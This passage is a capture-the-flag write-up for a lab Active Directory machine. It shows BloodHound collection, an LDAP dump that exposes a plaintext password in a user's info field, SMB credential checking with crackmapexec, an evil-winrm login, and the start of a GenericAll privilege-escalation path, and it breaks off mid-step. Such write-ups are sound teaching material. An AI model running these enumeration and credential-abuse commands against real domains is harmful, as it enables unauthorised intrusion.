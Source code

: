 ```
- bloodhound commands:
	```bash
bloodhound-python --dns-tcp -ns 10.10.11.174 -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
bloodhound-python --dns-tcp -ns 10.10.11.174 -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -c all
```
	- We don't find much
		- **Bloodhound looks for info in Description tab but there is also an info tab**
## Initial Foothold with LDAPsearch and SMB (with crackmapexec) 
**Note: Another GUI friendly tool instead of ldapsearch that can be used for this enumeration is Apache Directory Studio**
- we pass the command:
	```bash
ldapsearch -H ldap://support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" > ldap.out
```
	- We vi into it and search for "info:" via / command:
		```bash
vi ldap.out
> /info:

--OR--
cat ldap.out | grep "info:"

---OUTPUT---
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
...
info: Ironside47pleasure40Watchful
...
sAMAccountName: support
```
		- we find some creds : support : Ironside47pleasure40Watchful
- We try crackmapexec SMB with these credentials and get a match:
	```bash
crackmapexec smb 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'

---OUTPUT---
SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful 
```
	- At this point we can use evil-winrm to login to the machine as support and grab the user flag.
		```bash
evil-winrm -i support.htb -u support -p Ironside47pleasure40Watchful
cd ..
cd Desktop
type user.txt
```
----------
## Privilege Escalation with BloodHound
- **We then set support@support.htb user in bloodhound as owned**,
	- With this we can see possible paths to exploit from this owned user (or future owned users later)
	- We also set it as high value and set ldap user as owned too
	- we also set SHARED SUPPORT ACCOUNTS@SUPPORT.HTB as high value too
- We check the Shortest Path to Owned principles and see a link to DC.support.htb
- We also check Outbound Object Control > Group Delegated Object Control for used support
	- It shows us the Shared Support Account@support.htb account
		- We see Generic All against DC
			- If we right click and help and go under Windows Abuse we can see details for exploit
				- We need to install the dependencies :